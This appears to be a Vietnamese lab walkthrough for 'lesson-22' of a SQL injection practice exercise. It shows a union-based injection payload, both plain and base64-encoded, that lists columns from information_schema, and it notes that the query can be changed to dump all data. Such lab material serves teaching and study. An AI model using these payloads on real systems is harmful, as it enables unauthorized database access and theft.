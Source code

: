 # Những việc làm được với lesson-22
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-22

![](../images/lesson22/screen_6.png)

Tương tự như thế ta đăng nhập vào bài này 

![](../images/lesson22/screen_1.png)

Kết quả vẫn là một dòng ký tự ở uname và đó chắc vẫn là do encode. Chúng ta cùng thử đi tìm cấu trúc của nó nhưa bài trước. Sau khi nhập đến ký tự 
```
"
encode thành 
Ig==
```

![](../images/lesson22/screen.png)

thì nó đã thông báo lỗi. Dựa vào đó ta sẽ tìm ra cấu trúc của nó 

![](../images/lesson22/screen_12.png)

1. Tìm cấu trúc 
```
" union SELECT 1,@@version,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' # 
```
và được encode thành 
```
IiB1bmlvbiBTRUxFQ1QgMSxAQHZlcnNpb24sZ3JvdXBfY29uY2F0KENPTFVNTl9OQU1FKSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIFdIRVJFIHRhYmxlX3NjaGVtYT0nc2VjdXJpdHknIEFORCB0YWJsZV9uYW1lPSd1YWdlbnRzJyAgIyA=
```

Với cấu trúc câu như thế này thì chúng ta có thể thay các câu select sau union để có thể biết được tất cả dữ liệu 

